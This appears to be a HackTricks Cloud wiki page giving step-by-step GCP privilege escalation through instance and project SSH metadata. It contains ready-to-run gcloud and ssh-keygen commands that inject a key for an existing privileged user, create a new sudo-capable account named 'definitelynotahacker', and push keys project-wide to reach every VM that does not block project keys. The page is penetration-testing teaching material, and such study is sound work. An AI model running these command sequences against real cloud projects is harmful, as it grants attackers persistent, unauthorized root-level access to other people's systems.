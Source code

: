 # GCP - Add Custom SSH Metadata

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Modifying the metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Metadata modification on an instance could lead to **significant security risks if an attacker gains the necessary permissions**.

### **Incorporation of SSH Keys into Custom Metadata**

On GCP, **Linux systems** often execute scripts from the [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). A critical component of this is the [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), which is designed to **regularly check** the instance metadata endpoint for **updates to the authorized SSH public keys**. 

Therefore, if an attacker can modify custom metadata, he could make the the daemon find a new public key, which will processed and **integrated into the local system**. The key will be added into `~/.ssh/authorized_keys` file of an **existing user or potentially creating a new user with `sudo` privileges**, depending on the key's format. And the attacker will be able to compromise the host.

### **Add SSH key to existing privileged user**

1. **Examine Existing SSH Keys on the Instance:**
    - Execute the command to describe the instance and its metadata to locate existing SSH keys. The relevant section in the output will be under `metadata`, specifically the `ssh-keys` key.
      ```bash
      gcloud compute instances describe [INSTANCE] --zone [ZONE]
      ```
    - Pay attention to the format of the SSH keys: the username precedes the key, separated by a colon.

2. **Prepare a Text File for SSH Key Metadata:**
    - Save the details of usernames and their corresponding SSH keys into a text file named `meta.txt`. This is essential for preserving the existing keys while adding new ones.

3. **Generate a New SSH Key for the Target User (`alice` in this example):**
    - Use the `ssh-keygen` command to generate a new SSH key, ensuring that the comment field (`-C`) matches the target username.
      ```bash
      ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
      ```
    - Add the new public key to `meta.txt`, mimicking the format found in the instance's metadata.

4. **Update the Instance's SSH Key Metadata:**
    - Apply the updated SSH key metadata to the instance using the `gcloud compute instances add-metadata` command.
      ```bash
      gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
      ```

5. **Access the Instance Using the New SSH Key:**
    - Connect to the instance with SSH using the new key, accessing the shell in the context of the target user (`alice` in this example).
      ```bash
      ssh -i ./key alice@localhost
      sudo id
      ```

### **Create a new privileged user and add a SSH key**

If no interesting user is found, it's possible to create a new one which will be given `sudo` privileges:

```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```

### SSH keys at project level <a href="#sshing-around" id="sshing-around"></a>

It's possible to broaden the reach of SSH access to multiple Virtual Machines (VMs) in a cloud environment by **applying SSH keys at the project level**. This approach allows SSH access to any instance within the project that hasn't explicitly blocked project-wide SSH keys. Here's a summarized guide:

1. **Apply SSH Keys at the Project Level:**
    - Use the `gcloud compute project-info add-metadata` command to add SSH keys from `meta.txt` to the project's metadata. This action ensures that the SSH keys are recognized across all VMs in the project, unless a VM has the "Block project-wide SSH keys" option enabled.
      ```bash
      gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
      ```

2. **SSH into Instances Using Project-Wide Keys:**
    - With project-wide SSH keys in place, you can SSH into any instance within the project. Instances that do not block project-wide keys will accept the SSH key, granting access.
    - A direct method to SSH into an instance is using the `gcloud compute ssh [INSTANCE]` command. This command uses your current username and the SSH keys set at the project level to attempt access.
  
  
# References
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
